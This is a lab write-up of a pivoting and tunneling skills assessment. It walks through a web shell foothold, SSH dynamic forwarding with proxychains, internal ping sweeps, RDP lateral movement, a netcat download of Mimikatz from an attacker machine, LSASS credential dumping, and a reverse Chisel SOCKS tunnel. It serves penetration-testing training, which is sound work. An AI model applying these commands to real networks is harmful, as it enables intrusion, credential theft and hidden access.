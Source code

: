 ## Pivoting, Tunneling, and Port Forwarding — Skills Assessment Write-up

### Initial Reconnaissance

The initial hint indicated that a web server was running on the remote host `10.129.X.X` (port 80). Since the exercise focused on pivoting techniques, I began with a full port scan to identify potential entry points:

```bash
sudo nmap -sS -p- -T4 10.129.X.X
```

This revealed that ports **22 (SSH)** and **80 (HTTP)** were open. As no credentials were available at this stage, the most viable initial access vector was through the web server, likely via a web shell.

![](screenshots/Picture1.png)



### File System Enumeration

Upon gaining access via the web shell, the root directory did not contain anything of interest. Navigating to the `Users` directory revealed some subfolders, one of them contained a file titled `for-admin-eyes-only` that included a set of credentials (not functional for SSH login), and an `id_rsa` private SSH key.

![](screenshots/Picture2.png)

I copied the private key, saved it to the attack machine, set appropriate permissions (`chmod 600`), and used it to SSH into the host.

![](screenshots/Picture3.png)



### Setting Up Port Forwarding

Since lateral movement would be necessary later, I established **dynamic port forwarding** via SSH:

```bash
ssh -D 9050 -i id_rsa <username>@10.129.X.X
```

I also updated the `proxychains` configuration to route traffic through this SOCKS proxy.

![](screenshots/Picture4.png)



### Discovering Internal Network

To identify other reachable hosts, I ran `ifconfig` on the pivot host and noted its internal IP address range. Since `nmap` scans over `proxychains` were very slow, I executed the scan with bash script **directly on the pivot host** (a Linux machine):

```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

![](screenshots/Picture5.png)

The output showed two active hosts — one of which was the pivot host itself. The second had a TTL indicative of a Windows machine.



### Accessing the Second Host (Windows)

Due to proxy-related issues, most ports appeared as **filtered** even when using `-sT` and `-Pn` flags. To confirm open ports, I attempted an **RDP connection** using the previously obtained credentials.

![](screenshots/Picture6.png)

After successfully logging in, I navigated to `C:\` and retrieved the second flag.

![](screenshots/Picture7.png)



### Domain Recon and Privilege Escalation

Next, I explored the `Users` directory and found folder names suggesting a domain environment.

![](screenshots/Picture8.png)

Although no credentials were stored in plaintext, I was able to launch both `cmd.exe` and `powershell.exe` **with administrative privileges**, confirming local admin access.

To obtain domain credentials, I decided to extract hashes using **Mimikatz**. First, I verified the OS architecture.

![](screenshots/Picture9.png)

The system was 64-bit, so I downloaded the tool and transferred the `x64` version of Mimikatz using `netcat`.

![](screenshots/Picture10.png)

![](screenshots/Picture11.png)



#### File Transfer via Netcat:

1. On the attack machine:
   ```bash
   nc -lvnp 9001 < mimikatz_x64.zip
   ```
   
   ![](screenshots/Picture12.png)
   
2. On the first pivot host:
   ```bash
   nc <attacker-ip> 9001 > mimikatz_x64.zip
   ```
   
   ![](screenshots/Picture13.png)

I then hosted a Python HTTP server to allow the second pivot host (Windows) to download the tool:

```bash
python3 -m http.server 8888
```

![](screenshots/Picture14.png)

![](screenshots/Picture15.png)



### Extracting Credentials with Mimikatz

After extracting the archive, I executed `mimikatz.exe` with admin privileges from `cmd.exe`.

![](screenshots/Picture16.png)

I dumped credentials from the LSASS process and recovered:

- A domain **username**
- Its corresponding **NTLM hash**

Initially, I overlooked the cleartext password, so I used the NTLM hash for subsequent authentication steps.

---

### Discovering the Third Host (172.16.6.X)

Previously, I identified another internal subnet: `172.16.6.X`. I scanned this range using PowerShell from the second pivot host:

```powershell
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```

First try had no results, so I scanned again. One additional host responded.

![](screenshots/Picture17.png)



### Port Forwarding with Chisel

To access the third host (from `172.16.6.X`) via RDP, I needed to create another tunnel, this time with **Chisel**, since the Linux pivot host could not reach this subnet.

The second Windows host (with interfaces in both `172.16.5.X` and `172.16.6.X`) was selected to run the **Chisel client**.

> ⚠️ *Note: The latest Chisel version failed due to glibc library issues, so I used a precompiled older version.*

Steps:

1. Downloaded Chisel binaries and added `.exe` extension where needed.

![](screenshots/Picture18.png)

![](screenshots/Picture19.png)

![](screenshots/Picture20.png)

![](screenshots/Picture21.png)

2. Transferred them using `wget` and hosted them over Python servers.

![](screenshots/Picture22.png)

![](screenshots/Picture23.png)

![](screenshots/Picture24.png)

![](screenshots/Picture25.png)

3. Set up a Chisel server on the Linux machine (pivot host):
   ```bash
   ./chisel server -p 9001 --reverse
   ```
   
   ![](screenshots/Picture26.png)
   
4. Started Chisel client on the second pivot host:
   ```bash
   chisel.exe client 172.16.5.X:9001 R:socks
   ```

	![](screenshots/Picture27.png)



### Accessing the Final Host

I updated `proxychains.conf` again and initiated an RDP session using **domain user credentials**.

![](screenshots/Picture28.png)

![](screenshots/Picture29.png)

Upon logging in, I found the final flag in `C:\`.

![](screenshots/Picture30.png)

Additionally, I noticed a mapped **Z: drive** that was inaccessible initially.

![](screenshots/Picture31.png)



### Final Step — Accessing Network Share

After revisiting the Mimikatz dump, I realized that I had missed a **cleartext password** for the domain user.

Using these recovered credentials, I successfully entered to a mounted **Z: drive**, which was a domain share, and retrieved the final flag.

![](screenshots/Picture32.png)



## Conclusion

This assessment demonstrated the full pivot chain involving:

- Web shell → SSH access
- Proxychains + dynamic port forwarding
- RDP lateral movement
- Credential dumping via Mimikatz
- Cross-subnet tunneling using Chisel
- Final domain share access

All tasks were completed without external tooling (except Mimikatz, which was covered in the Password Attacks module) beyond those allowed by the assessment scope.

